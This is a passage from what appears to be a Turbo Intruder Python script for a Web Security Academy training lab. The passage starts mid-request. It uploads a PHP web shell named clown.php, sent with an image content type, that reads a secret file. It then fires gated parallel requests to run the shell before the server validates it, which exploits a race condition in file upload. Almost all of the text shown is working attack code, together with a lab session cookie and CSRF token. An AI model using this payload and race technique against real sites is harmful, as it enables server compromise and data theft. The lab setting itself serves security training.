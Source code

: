 ```python
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------40396962506101427813186500673
Content-Disposition: form-data; name="avatar"; filename="clown.php"
Content-Type: image/png

<?php echo file_get_contents('/home/carlos/secret'); ?>

-----------------------------40396962506101427813186500673
Content-Disposition: form-data; name="user"

wiener
-----------------------------40396962506101427813186500673
Content-Disposition: form-data; name="csrf"

IjSwEznpGuziqcR53SDnx54m3SfQ04SG
-----------------------------40396962506101427813186500673--
'''

    request2 = '''
GET /files/avatars/clown.php HTTP/1.1
Host: ac3b1f291e83171ac0b8a6a400680062.web-security-academy.net
Cookie: session=6QANEtWspmJnotAZWeaMu2b0JnNoeZbQ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac3b1f291e83171ac0b8a6a400680062.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
If-Modified-Since: Fri, 06 May 2022 23:57:35 GMT
If-None-Match: "38-5de609f60c6b3"
Te: trailers
Connection: close\r\n
'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for i in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```
